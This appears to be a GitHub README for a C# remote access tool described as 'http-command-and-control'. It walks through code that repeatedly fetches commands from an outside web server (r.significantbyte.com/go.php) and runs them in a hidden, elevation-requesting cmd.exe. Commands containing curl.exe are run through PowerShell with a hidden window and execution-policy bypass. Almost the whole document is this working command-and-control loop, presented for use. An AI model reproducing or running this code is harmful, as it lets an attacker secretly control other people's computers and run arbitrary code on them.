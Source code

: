 # http-command-and-control Remote Access Tool (RAT) using c# >

<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
                          new WebClient().DownloadString("https://r.significantbyte.com/go.php");<br>
<br>
<b>Run command in device.</b><br>
                            Process cmd = new Process();<br>
                            cmd.StartInfo.FileName = "cmd.exe";<br>
                            cmd.StartInfo.RedirectStandardInput = true;<br>
                            cmd.StartInfo.RedirectStandardOutput = true;<br>
                            cmd.StartInfo.CreateNoWindow = true;<br>
                            cmd.StartInfo.UseShellExecute = false;<br>
                            cmd.StartInfo.Verb = "runas";<br>
                            cmd.Start();<br>
                            cmd.StandardInput.WriteLine(json);<br>
                            <br>
  
<b>Lets wait for 1 second</b>
                            Thread.Sleep(1000);
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>
 while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://r.significantbyte.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
